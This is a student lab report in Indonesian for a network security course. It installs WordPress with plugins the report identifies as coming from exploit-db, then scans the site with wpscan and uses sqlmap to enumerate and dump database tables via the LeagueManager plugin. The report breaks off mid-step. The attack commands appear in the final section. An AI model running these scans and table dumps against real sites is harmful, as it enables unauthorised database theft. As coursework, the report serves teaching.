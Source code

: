 # Laporan Tugas 2 PKSJ
## Pendahuluan
Laporan ini dibuat sebagai tugas 2 dari mata kuliah Peracangan Keamanan dan Sekuritas Jaringan. Pada laporan ini terdapat penjelasan-penjelasan dan hasil percobaan SQL Injection yang kami lakukan. 
Laporan ini disusun oleh :
Setiyo Adiwicaksono		:5113100020
Fajar Ade Putra			:5113100092
Anwar Rosyidi			:5113100180

## Dasar Teori
### OS yan digunakan
1.  Ubuntu Server 14.04 : Ubuntu server adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS.
2.   Kali Linux adalah generasi baru dari BackTrack Linux, pemimpin industri Penetration Testing dan audit keamanan distribusi Linux. Kali Linux merupakan pembangunan kembali dari BackTrack Linux dari dasar dan mengikuti sepenuhnya standar pengembangan Debian.

### Tools yang digunakan
1. SSH Server :SSH adalah akronim dari Secure Shell yang merupakan sebuah protokol jaringan yang memanfaatkan kriptografi untuk melakukan komunikasi data pada perangkat jaringan agar lebih aman. Dalam konsepnya penggunaan SSH ini harus di dukung oleh server maupun perangkat atau komputer klien yang melakukan pertukaran data. Keduanya harus memiliki SSH server dari sisi komputer server dan SSH klien untuk komputer penerima (klien).
2. WordPress adalah sebuah aplikasi sumber terbuka (open source) yang sangat populer digunakan sebagai mesin blog (blog engine). WordPress dibangun dengan bahasa pemrograman PHP dan basis data (database) MySQL. PHP dan MySQL, keduanya merupakan perangkat lunak sumber terbuka (open source software).
3. Plugin-plugin di Wordpress

## Uji coba
## Instalasi Wordpress
1. Pertama, lakukan koneksi ssh dengan server
```
ssh server@192.168.56
```
2. Lakukan instalasi apache server
```
sudo apt-get install apache2
```
![GitHub Logo](PKSJ2/apache.JPG)

3. Install database mysql
```
sudo apt-get install mysql-server php5-mysql
```
```
sudo mysql_install_db
```
```
sudo mysql_secure_installation
```
4. Install PHP
```
sudo apt-get install php5 libapache2-mod-php5 php5-mcrypt
```
untuk mengetahui apabila php sudah terinstall silahkan buat file php di var/www/html/ 
![GitHub Logo](PKSJ2/php.JPG)

5. Buat database untuk wordpress
	- log in ke dalam mysql root
```
mysql -u root -p
```
	-  Buat database wordpress
```
CREATE DATABASE wordpress;
```
	- buat user untuk akses database
```
CREATE USER wordpressuser@localhost IDENTIFIED BY 'password';
```
	- Berikan privileges akses kepada akun db yang kita buat
```
GRANT ALL PRIVILEGES ON wordpress.* TO wordpressuser@localhost;
```
```
FLUSH PRIVILEGES;
exit
```

## Download wordpress
1. Lakukan download wordpress dengan memasukan syntax
```
cd ~
wget http://wordpress.org/latest.tar.gz
```
![GitHub Logo](PKSJ2/dwwp.JPG)
2. Kemudian extract hasil download
```
tar xzvf latest.tar.gz
```
3. Install package yang diperlukan 
```
sudo apt-get update
sudo apt-get install php5-gd libssh2-php
```
## Konfigurasi wordpress
1. Buka directory wordpress
```
cd ~/wordpress
```
2. Membuat backup file config wordpress
```
cp wp-config-sample.php wp-config.php
```
3. buka wpconfig untuk melakukan konfigurasi database
```
nano wp-config.php
```
![GitHub Logo](PKSJ2/setingwp.JPG)

4. copy file yang ada pada directory wordpress ke document root
```
sudo rsync -avP ~/wordpress/ /var/www/html/
```
5. buka document root dan rubah ownership file wordpress
```
cd /var/www/html
sudo chown -R demo:www-data *
```
6. kemudian kita buat folder uploads pada document root dan rubah ownershipnya
```
mkdir /var/www/html/wp-content/uploads
sudo chown -R :www-data /var/www/html/wp-content/uploads
```
7. Selanjutnya lakukan konfigurasi dengan membuka halaman wordpress yang telah kita install
![GitHub Logo](PKSJ2/setwp.JPG)
![GitHub Logo](PKSJ2/setsuk.JPG)
8. Proses instalasi selesai dan kita bisa membuka halaman wp-admin
![GitHub Logo](PKSJ2/wpadmin.JPG)
### Hasil halaman wordpress yang berhasil diinstall
![GitHub Logo](PKSJ2/sip.JPG)

## Instalasi Plugin Wordpress
1. Download plugin yang ingin di install secara manual

2. Untuk kuliah PKSJ ini download plugin yang ingin digunakan di https://www.exploit-db.com yaitu:
	- Video Player 1.5.16
	- LeagueManager 3.9.11

3. Silahkan buka bagian **wp-admin** dan silahkan buka bagian menu plugin. Lalu silahkan tekan tombol bagian **Add New**
![GitHub Logo](PKSJ2/plugin.JPG)

4. Silahkan tekan tombol upload plugin untuk mengupload plugin yang kita download secara external, ataupun langsung di search pada kolom serch plugin. 

5. Setelah muncul tombol browse, silahkan pilih plugin mana yang ingin di install, dan silahkan langsung di install
![GitHub Logo](PKSJ2/plugin1.JPG)

## Exploit Wordpress Menggunakan Tools SQLMAP dan WPSCAN
### Exploit Wordpress menggunakan WPscan
Fungsi penggunaan wpscan dalam exploit kali ini adalah untuk mendeteksi celah keamanan dari sebuah web berbasis wordpress. Penggunaan wpscan adalah jalankan kode dibawah dengan terminal.
```
wpscan --url http://[url yang dituju] -enumerate
```
Maka akan muncul tanda yang menunjukan celah keamanan dari plugin yang sudah di install pada wordpress
![GitHub Logo](PKSJ2/wpscan.JPG)

###Exploit dan Inject Sql menggunakan Sqlmap
####Inject Melalui League Manager
1. Silahkan jalankan perintah dibawah ini untuk mengetahui bagaimana struktur tabel dari wordpress yang ada
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --tables
```
![GitHub Logo](PKSJ2/sqlmaplm1.JPG)

2. Ketika kita ingin mengetahui bagaimana isi dari tabel yang kita inginkan, silahkan jalankan script dibawah ini
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]
```
![GitHub Logo](PKSJ2/sqlmaplm2.JPG)

3. Ketika sudah mendapatkan data nya 
